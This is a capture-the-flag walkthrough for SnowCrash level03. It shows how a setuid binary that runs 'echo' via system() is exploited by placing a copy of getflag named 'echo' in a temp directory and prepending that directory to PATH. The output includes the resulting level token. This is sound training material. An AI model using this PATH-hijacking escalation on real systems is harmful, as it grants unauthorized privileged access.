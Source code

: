 # Level03

After switching to the level03 user, we are greeted by an executable file with special permissions, owned by flag03

```bash
level03@SnowCrash:~$ ls -la
total 24
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

The fact that it's an executable with special permissions made me think I should take control of the program to execute the `getflag` command

### Exploiting the binary

```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

- Filtering [strings](http://ix.io/27EI) from the program shows the program is using the echo binary in it's environment with [system(3)](http://man7.org/linux/man-pages/man3/system.3.html) to print the message instead of using write(2)

```bash
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
...
system
getegid
geteuid
__libc_start_main
...
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
...
/home/user/level03/level03.c
...

```

- We can use a different echo command

```bash
level03@SnowCrash:~$ which getflag
/bin/getflag

level03@SnowCrash:~$ mkdir test
mkdir: cannot create directory `test': Permission denied

level03@SnowCrash:~$ mktemp -d
/tmp/tmp.yJuq6aWVv2
level03@SnowCrash:~$ cp /bin/getflag /tmp/tmp.yJuq6aWVv2/echo
level03@SnowCrash:~$ chmod -R 777 /tmp/tmp.yJuq6aWVv2
```

- Then execute our new `echo` binary by modifing the `PATH` variable in the environment

```bash
level03@SnowCrash:~$ PATH=/tmp/tmp.yJuq6aWVv2 ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### Go to level04

```bash
su level04
Password:
<<< 'qi0maab88jeaj46qoumi7maus'

level04@SnowCrash:~$
```
